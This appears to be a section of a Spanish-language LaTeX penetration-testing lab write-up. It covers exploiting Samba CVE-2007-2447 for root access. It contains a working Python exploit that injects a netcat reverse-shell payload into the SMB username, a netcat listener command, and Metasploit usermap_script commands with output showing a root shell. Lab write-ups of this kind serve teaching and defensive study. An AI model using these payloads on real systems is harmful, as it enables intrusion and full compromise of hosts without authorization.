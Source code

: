 \documentclass[../../../main_compilation.tex]{subfiles}
\begin{document}
\subsection{Explotación (Acceso Inicial \& Root)}

La vulnerabilidad \textbf{CVE-2007-2447} permite enviar una cadena especialmente formateada en el nombre de usuario que contiene caracteres de ejecución por shell: \texttt{nohup /bin/sh -c "<comando>"}.

\subsubsection{Método A: Explotación Manual (Vía Python / Netcat)}

Preparamos un listener en nuestra máquina atacante:
\begin{terminal}
	nc -lvnp 4444
\end{terminal}

Ejecutamos el exploit enviando el comando a través del cliente SMB:

\begin{codebox}[Python]{exploit\_samba.py}
	from smb.SMBConnection import SMBConnection
	import sys

	target_ip = "10.10.10.3"
	attacker_ip = "10.10.14.15"
	attacker_port = 4444

	# Payload de Reverse Shell dentro del nombre de usuario
	payload = f"/=`nohup nc -e /bin/sh {attacker_ip} {attacker_port}`"

	conn = SMBConnection(payload, "", "", "", use_ntlm_v2=False)
	try:
	conn.connect(target_ip, 139, timeout=3)
	except Exception as e:
	print(f"[*] Payload enviado a {target_ip}!")
\end{codebox}

\subsubsection{Explotación vía Metasploit Framework}

\begin{terminal}
	msfconsole -q
	msf6 > use exploit/multi/samba/usermap_script
	msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
	msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.15
	msf6 exploit(multi/samba/usermap_script) > exploit

		[*] Started reverse TCP handler on 10.10.14.15:4444
	[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.3:43210)
	id
	uid=0(root) gid=0(root) groups=0(root)
\end{terminal}
\end{document}
